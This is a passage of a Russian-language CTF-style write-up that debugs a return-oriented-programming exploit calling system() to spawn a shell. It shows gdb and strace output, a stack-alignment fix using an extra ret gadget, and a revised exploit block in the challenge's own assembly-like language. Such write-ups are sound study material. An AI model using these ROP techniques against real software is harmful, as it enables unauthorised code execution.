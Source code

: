 И... это не работает. Почему же? Запускаем gdb заново и видим:

```c
$rsp   : 0x00007fffffffd8e8  →  0x00007ffff7fd80d1  →   mov r13, rax
...
   0x7ffff7c4e1f4                  mov    QWORD PTR [rsp+0x60], r12
   0x7ffff7c4e1f9                  mov    r9, QWORD PTR [rax]
   0x7ffff7c4e1fc                  lea    rsi, [rip+0x167fb1]        # 0x7ffff7db61b4
 → 0x7ffff7c4e203                  movaps XMMWORD PTR [rsp+0x50], xmm0
   0x7ffff7c4e208                  mov    QWORD PTR [rsp+0x68], 0x0
   0x7ffff7c4e211                  call   0x7ffff7d0b3e0 <posix_spawn>
   0x7ffff7c4e216                  mov    rdi, rbx
   0x7ffff7c4e219                  mov    r12d, eax
   0x7ffff7c4e21c                  call   0x7ffff7d0b2e0 <posix_spawnattr_destroy>
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "a.out", stopped 0x7ffff7c4e203 in ?? (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ffff7c4e203 → movaps XMMWORD PTR [rsp+0x50], xmm0
```

Ошибка происходит из-за того, что инструкция movaps ожидает, что ее аргумент будет выровнен по 16 байт, а `rsp` отстоит от выравнивания на 8 байт. Произошло это потому, что функции C ожидают, что при вызове стек выровнен, а за счет того, что мы использовали ROP, это выравнивание поехало. Чтобы это исправить, достаточно перед вызовом `system` вставить еще один пустой гаджет -- просто иструкцию ret. Для этого можно просто взять гаджет `pop rdi; ret` и отбросить от него первую инструкцию `pop rdi`, которая занимает 1 байт. Таким образом, последний блок эксплоита можно заменить на:

```asm
// Кладем на стек подряд адрес pop rdi; ret, адрес шелл-кода, адрес ret и адрес system
pop d
pop d
pop d
mov d c
add d 1
push b
push d
push a
push c
```

Еще одна проблема заключается в том, что если запустить этот код после исправления под `strace`, можно увидеть, что `system` на самом деле запускает шелл с пустым аргументом, хотя `rdi` устанавливается и правильно:

```shell
$ strace -f /tmp/a.out
...
[pid 137289] execve("/bin/sh", ["sh", "-c", ""], 0x7fff36527f28 /* 63 vars */ <unfinished ...>
...
```

Дело здесь, по-видимому, в том, что шеллкод расположен на стеке, который использует сам вызов `system`. Поэтому придется перенести его либо сильно ниже, либо чуть выше адреса возврата `main`. Сделать можно и так, и так; второй способ надежнее, поэтому в разборе предлагается следовать ему.
